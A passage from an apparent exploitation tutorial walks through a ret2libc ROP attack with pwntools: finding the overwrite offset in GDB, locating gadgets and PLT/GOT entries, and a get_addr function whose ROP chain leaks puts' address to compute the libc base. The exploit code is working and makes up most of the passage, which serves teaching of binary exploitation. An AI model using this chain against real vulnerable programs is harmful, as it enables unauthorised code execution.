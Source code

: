 **Execute** `python template.py` a GDB console will be opened with the program being crashed. Inside that **GDB console** execute `x/wx $rsp` to get the **bytes** that were going to overwrite the RIP. Finally get the **offset** using a **python** console:

```python
from pwn import *
cyclic_find(0x6161616b)
```

![](../../.gitbook/assets/image%20%28188%29.png)

After finding the offset \(in this case 40\) change the OFFSET variable inside the template using that value.  
`OFFSET = "A" * 40`

## 2- Finding Gadgets

Now we need to find ROP gadgets inside the binary. This ROP gadgets will be useful to call `puts`to find the **libc** being used, and later to **launch the final exploit**.

```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```

The `PUTS_PLT` is needed to call the **function puts**.  
The `MAIN_PLT` is needed to call the **main function** again after one interaction to **exploit** the overflow **again** \(infinite rounds of exploitation\).It is used at the end of each ROP.  
The **POP\_RDI** is needed to **pass** a **parameter** to the called function.

In this step you don't need to execute anything as everything will be found by pwntools during the execution.

## 3- Finding LIBC library

Now is time to find which version of the **libc** library is being used. To do so we are going to **leak** the **address** in memory of the **function** `puts`and then we are going to **search** in which **library version** the puts version is in that address.

```python
def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    # Create rop chain
    rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

    #Send our rop-chain payload
    #p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
    print(p.clean()) # clean socket buffer (read all and print)
    p.sendline(rop1)

    #Parse leaked address
    recieved = p.recvline().strip()
    leak = u64(recieved.ljust(8, "\x00"))
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    #If not libc yet, stop here
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
```